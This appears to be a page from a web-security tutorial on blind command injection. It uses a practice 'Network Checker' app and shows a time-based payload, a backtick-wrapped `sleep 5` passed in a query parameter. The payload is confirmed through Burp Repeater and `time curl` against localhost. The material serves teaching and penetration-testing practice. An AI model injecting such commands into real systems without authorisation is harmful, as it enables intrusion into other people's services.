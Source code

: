 This time we have the same Network Checker app, but the [previous attack](examples.md#basic) does not work (Figure 6.1). Either something gets filtered, which we can check (Figure 6.2 & 6.3), or we the command is executed but we don't get any output on the front-end.

<figure><img src="../../../.gitbook/assets/web_ci_blind_1.png" alt=""><figcaption><p>Figure 6: An unsuccessful CI attack.</p></figcaption></figure>

We can try a payload that alters the application's behaviour (similar to [Blind SQLi](../sqli/blind.md)) and see if this works. This can be tested with Burp Suite's Repeater, as it shows the response time in the bottom right corner (Figure 7).

```bash
localhost?q=`sleep 5`
```

<figure><img src="../../../.gitbook/assets/web_ci_blind_2.png" alt=""><figcaption><p>Figure 7: Confirming a blind CI vulnerability.</p></figcaption></figure>

We also use `time` and `curl` to measure the response time within the CLI.

```bash
$ time curl "http://localhost?q=localhost"
<html>
<SNIP>
</html>

real    0m0.062s # Normal response time
user    0m0.006s
sys     0m0.000s

$ time curl "http://localhost?q=`sleep+5`"
<html>
<SNIP>
</html>

real    0m5.063s # The 'sleep 5' payload worked
```